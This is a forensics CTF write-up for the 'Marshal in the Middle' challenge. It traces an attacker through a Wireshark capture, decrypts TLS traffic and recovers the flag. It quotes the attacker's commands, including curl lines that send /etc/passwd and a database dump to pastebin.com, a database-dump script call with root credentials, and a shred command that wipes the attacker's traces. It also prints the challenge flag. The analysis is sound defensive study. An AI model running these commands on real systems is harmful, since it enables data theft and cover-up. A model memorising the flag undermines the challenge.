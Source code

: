 # Marshal in the Middle
> Write-up author: jon-brandy
## DESCRIPTION:
The security team was alerted to suspicous network activity from a production web server.
Can you determine if any data was stolen and what it was?
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209421504-7bddc062-2ab0-4957-8a1c-79f5146d4249.png)


2. Open the `.pcap` file in wireshark.

![image](https://user-images.githubusercontent.com/70703371/209421555-d456277e-ec19-45f0-a66f-347888ba5ba7.png)


3. Now let's follow the `tcp` stream.
4. When i followed the 2nd tcp stream. Got a clue here.

![image](https://user-images.githubusercontent.com/70703371/209457019-4fbdaa88-c5f9-4ecc-944d-500d376dd077.png)


![image](https://user-images.githubusercontent.com/70703371/209457055-00664966-81c8-42b3-b7f4-17fff62905ed.png)


![image](https://user-images.githubusercontent.com/70703371/209457068-4d13d925-a145-4aac-9e32-75910b09d3af.png)


5. Based from it we know that the attacker checked connectivity to a database server, then used a script named exfildb.sh to dump the remote database.

```sh
./exfildb.sh mysql-m1.prod.htb 3306 root p4ssw0rd dbdump
```

6. Then the attacker tried to upload the contents of `etc/passwd` to pastebin.com using **curl**.

```sh
pastetext=$(cat /etc/passwd) ; curl -d "api_user_key=ed67c1aec48d47270dd002d0baa29814&api_dev_key=bb8aa307a7d4b6073976149b65977bae&api_paste_private=2&api_option=paste&api_paste_code=${pastetext}" 'https://pastebin.com/api/api_post.php'
```

7. Seems like the attacker tried to upload contents of `etc/passwd` again.

![image](https://user-images.githubusercontent.com/70703371/209457217-9300ece2-2e88-4b81-b866-633ab61ee40d.png)


8. Next, the attacker used **head** to check the first four lines of the `dumpdb` file.

![image](https://user-images.githubusercontent.com/70703371/209457232-ae2da664-198c-4ceb-985e-58547bfd9a31.png)


9. Then he used **curl** again to upload the database of pastebin.com.

![image](https://user-images.githubusercontent.com/70703371/209457243-1cad3ecc-b9ea-4404-a68d-a843cbc0e1eb.png)


```sh
pastetext=$(cat dumpdb) ; curl -d "api_user_key=ed67c1aec48d47270dd002d0baa29814&api_dev_key=bb8aa307a7d4b6073976149b65977bae&api_paste_private=2&api_option=paste&api_paste_code=${pastetext}" 'https://pastebin.com/api/api_post.php'
```

10. After that, the attacker tried to remove all the tools and dumped database from `tmp/.h4x` directory.

![image](https://user-images.githubusercontent.com/70703371/209457272-96bcd57b-4cc0-453e-8aa5-cb668d68d390.png)


```sh
find /tmp/.h4x -type f -exec shred -vfun2  {} \;
```

11. The next thing to do is to check what was uploaded to pastebin.com.
12. First, we need to upload the `secrets.log` file we got from extracting the zip file as the TLS (Pre)-Master-Secret log filename, because we want to decrypt the encrypted HTTPS traffic.

> STEPS

```
Go to edit -> preferences -> protocols -> TLS -> upload.
```

13. Now let's filter the http stream which has pastebin.com as the host.

> COMMAND

```
http.host=="pastebin.com"
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209457412-69950c44-a246-4dbe-9f27-8627e1835fcd.png)


14. After follow the 1st and the 2nd HTTP stream, i got nothing useful.
15. But when i followed the 3rd one, i got the flag!

![image](https://user-images.githubusercontent.com/70703371/209457425-3566d937-cf65-4491-a893-3f63a719fcdc.png)


## FLAG

```
HTB{Th15_15_4_F3nD3r_Rh0d35_M0m3NT!!}
```




